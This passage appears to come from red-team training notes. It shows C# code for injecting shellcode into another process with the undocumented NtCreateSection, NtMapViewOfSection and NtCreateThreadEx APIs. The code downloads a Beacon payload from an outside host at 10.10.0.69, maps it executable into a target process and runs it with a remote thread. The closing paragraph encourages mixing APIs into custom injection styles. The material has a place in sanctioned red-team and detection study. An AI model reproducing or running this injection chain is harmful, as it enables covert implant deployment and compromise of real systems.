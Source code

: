 The Nt*Section set of APIs provides a nice alternative to VirtualAllocEx, WriteProcessMemory and VirtualProtectEx.  The big challenge with using these lower-level native APIs is that they're not officially documented, so we must rely on the efforts of individuals who perform reverse engineering on ntdll.dll to figure them out.  One such resource is [ntinternals.net](http://undocumented.ntinternals.net/index.html).

1.  Fetch the shellcode and create a new section within our current process.  The section has to be as large as the shellcode size.

var shellcode = await client.GetByteArrayAsync("https://10.10.0.69/beacon.bin");

var hSection = IntPtr.Zero;
var maxSize = (ulong)shellcode.Length;

// Create a new section in the current process
Native.NtCreateSection(
    ref hSection,
    0x10000000,     // SECTION_ALL_ACCESS
    IntPtr.Zero,
    ref maxSize,
    0x40,           // PAGE_EXECUTE_READWRITE
    0x08000000,     // SEC_COMMIT
    IntPtr.Zero);

  

2.  Map the view of that section into memory of the current process.

// Map that section into memory of the current process as RW
Native.NtMapViewOfSection(
    hSection,
    (IntPtr)(-1),   // will target the current process
    out var localBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out var _,
    2,              // ViewUnmap (created view will not be inherited by child processes)
    0,
    0x04);          // PAGE_READWRITE

// Copy shellcode into memory of our own process
Marshal.Copy(shellcode, 0, localBaseAddress, shellcode.Length);

  

3.  Get a handle to the target process and map the same section into it.  This will automatically copy the shellcode from our current process to the target.

// Get reference to target process
var target = Process.GetProcessById(4148);

// Now map this region into the target process as RX
Native.NtMapViewOfSection(
    hSection,
    target.Handle,
    out var remoteBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out _,
    2,
    0,
    0x20);      // PAGE_EXECUTE_READ

  

4.  Create a new remote thread to execute the shellcode.

// Shellcode is now in the target process, execute it (fingers crossed)
Native.NtCreateThreadEx(
    out _,
    0x001F0000, // STANDARD_RIGHTS_ALL
    IntPtr.Zero,
    target.Handle,
    remoteBaseAddress,
    IntPtr.Zero,
    false,
    0,
    0,
    0,
    IntPtr.Zero);

  

You should now have a Beacon running in the target process.


![[27. NtMapViewOfSection.png]]

 Think of all the APIs we've covered like items on a menu.  You can mix and match them to create your own style of injection.  For instance, you could spawn a process in a suspended state, use the Nt*Section APIs to map and copy the shellcode, and then QueueUserAPC or NtQueueApcThread to execute it.
